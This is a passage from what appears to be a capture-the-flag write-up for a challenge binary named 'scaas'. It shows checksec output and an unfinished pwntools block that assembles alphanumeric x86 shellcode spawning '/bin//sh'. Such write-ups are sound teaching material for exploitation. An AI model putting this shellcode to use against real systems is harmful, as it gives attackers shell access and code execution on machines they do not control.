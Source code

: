So, we need to write an alphanumeric shellcode after all.

### Pwning

Let's write our shellcode.

```log
nikos@ctf-box:~$ checksec --file=./scaas
[*] '~/scaas'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So, no funny stuff here, except that it is a 32-bit binary. Fortunately, [someone else](https://blackcloud.me/Linux-shellcode-alphanumeric/) has done already a great analysis on an x86 (32-bit) alphanumeric shellcode. There is also this [great phrack issue about "Writing ia32 alphanumeric shellcodes"](http://phrack.org/issues/57/15.html). With these information in hand we can craft our `execve("/bin//sh")` shellcode:

```python
payload  = b''
payload += asm('''
    push 0x30
    pop eax
    xor al, 0x30
    push eax
    pop edx
    dec eax
    xor ax, 0x4f73
    xor ax, 0x3041
    push eax
    push edx
    pop eax
    // ;----------------------
    push edx
    push 0x68735858
    pop eax
    xor ax, 0x7777
    push eax
    push 0x30
    pop eax
    xor al, 0x30
    xor eax, 0x6e696230
    dec eax
    push eax

    // ; pushad/popad to place /bin/sh in EBX register
    push esp
    pop eax
    push edx
    push ecx
    push ebx
    push eax
    push esp
    push ebp
    push esi
    push edi
    popad
    push eax
    pop ecx
    push ebx

    //set edx to 0
```